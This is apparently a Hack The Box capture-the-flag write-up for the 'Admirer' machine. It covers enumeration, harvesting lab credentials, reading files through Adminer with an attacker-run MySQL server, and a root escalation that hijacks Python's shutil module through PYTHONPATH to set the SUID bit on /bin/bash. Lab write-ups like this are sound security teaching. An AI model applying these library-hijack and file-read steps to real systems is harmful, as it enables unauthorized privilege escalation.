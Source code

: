 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Admirer
- Description: Admirer is an easy difficulty Linux machine that features a vulnerable version of Adminer (caused by an underlying MySQL protocol flaw), and an interesting Python library hijacking vector. After thorough enumeration, lots of pieces of information can be combined to get a foothold and then escalate privileges to root.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking FTP yields no Anonymous access, so I'll move on!

![](assets/images/2024-01-29-HTB-admirer-writeup-image-1.png)

Website is an image gallery of some sort, I see in robots.txt that admin-dir exists, I'll route there and dirsearch at the same time!

Accessing the admin-dir head on shows me a 403, but dirsearching it finds the file `contacts.txt` and `credentials.txt`

```bash
HTB  dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://10.10.10.187/admin-dir

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/10.10.10.187/-admin-dir_24-01-29_10-26-12.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-29_10-26-12.log

Target: http://10.10.10.187/admin-dir/

[10:26:12] Starting: 
[10:26:14] 200 -  350B  - /admin-dir/contacts.txt
[10:26:14] 200 -  350B  - /admin-dir/credentials.txt
```

```bash
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb


##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb



#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

```bash
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

We also notice a domain `admirer.htb`, let's add that to our `/etc/hosts` file. 

I login to the ftp and download files present:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||27824|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> get dump.sql
local: dump.sql remote: dump.sql
229 Entering Extended Passive Mode (|||27994|)
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
100% |******************************************************************************************************************|  3405        2.65 MiB/s    00:00 ETA
226 Transfer complete.
3405 bytes received in 00:00 (64.25 KiB/s)
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
229 Entering Extended Passive Mode (|||7100|)
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
100% |******************************************************************************************************************|  5147 KiB    1.40 MiB/s    00:00 ETA
226 Transfer complete.
5270987 bytes received in 00:03 (1.38 MiB/s)
ftp> 
```

Looking at the dump.sql I don't see anything that stands out, however, when I look at the html  tar file, I can see some important stuff!

For starters we have 2 directories I haven't seen before `utility-scripts` and `w4ld0s_s3cr3t_d1r`.

In waldos dir we can see more creds than before:
```bash
[Bank Account]
waldo.11
Ezy]m27}OREc$

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Looking through all the files in the utility-scripts section, I wasn't able to find much... so I tried accessing the pages from my browser, then hit it with a diresearch because the backup may be outdated..

Eventually we get a hit for adminer:

![](assets/images/2024-01-29-HTB-admirer-writeup-image-2.png)

I have tons of credentials, so let me see if I can login with any of them!

None of the credentials work, what we can try to do is the following:
- Setup a mysql server locally.
- Point Adminer at my machine
- Read local files!

![](assets/images/2024-01-29-HTB-admirer-writeup-image-3.png)

I login to my own instance!

Now I try to read local files, I attempted `/etc/passwd` to start with no luck! Now I'll try to do index.php:

![](assets/images/2024-01-29-HTB-admirer-writeup-image-4.png)

![](assets/images/2024-01-29-HTB-admirer-writeup-image-5.png)
![](assets/images/2024-01-29-HTB-admirer-writeup-image-6.png)

The password in index.php does not match the password that I have in my index.php, let's try it out on ssh!
```

HTB ssh waldo@admirer.htb
The authenticity of host 'admirer.htb (10.10.10.187)' can't be established.
ED25519 key fingerprint is SHA256:MfZJmYPldPPosZMdqhpjGPkT2fGNUn2vrEielbbFz/I.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:56: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'admirer.htb' (ED25519) to the list of known hosts.
waldo@admirer.htb's password: 
Linux admirer 4.9.0-19-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Thu Aug 24 16:09:42 2023 from 10.10.14.23
waldo@admirer:~$
```

We're in!
## Privilege Escalation

Checking sudo privileges:

```bash
waldo@admirer:/opt/scripts$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

I see that a script is running as root, and its running backup.py. This script imports shutil. Since I can set the environment, I can go ahead and set the Pythonpath to anything I want and put a fake python file called shutil with the function thats being imported!

```python
import os
def make_archive(test, test2, test3):
        os.system('chmod +s /bin/bash');

```

```bash
sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
```

```bash
waldo@admirer:/dev/shm$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
waldo@admirer:/dev/shm$ bash -p
bash-4.4# whoami
root
```

best,
gerbsec